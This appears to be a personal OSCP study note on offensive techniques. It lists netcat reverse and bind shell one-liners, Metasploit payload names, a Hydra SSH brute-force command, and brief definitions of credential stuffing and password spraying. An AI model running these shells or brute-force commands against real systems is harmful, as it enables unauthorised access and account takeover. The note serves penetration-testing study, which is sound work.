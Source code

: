 ```yaml
---
aliases:
  - Scanning and Enumeration
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - exploitation
author: Mehdi N Tehrani
creat_date: 2023-12-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# netcat
## Reverse Shell
Attacker: `nc -nvlp <ip> <port>`
Victim: `nc <ip> <port> -e /bin/bash`

## Bind Shell
Attacker: `nc <ip> <port>`
Victim: `nc -nvlp <ip> <port> -e /bin/bash`

# Payloads
## Staged
sent in smaller chunks in stages
e.g. `windows/meterpreter/reverse_tcp`

## non-staged
larger in size
e.g. `windows/meterpreter_reverse_tcp`

# Brute Force
#brute_force
## Hydra
#hydra
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<ip>:<port> -t 4 -V`

## metasploit
`auxiliary/scanner/ssh/ssh_login`

# Credential Stuffing
#credential_stuffing
injecting breached account credentials

# Password Spraying
#password_spraying
using one password across multiple known usernames
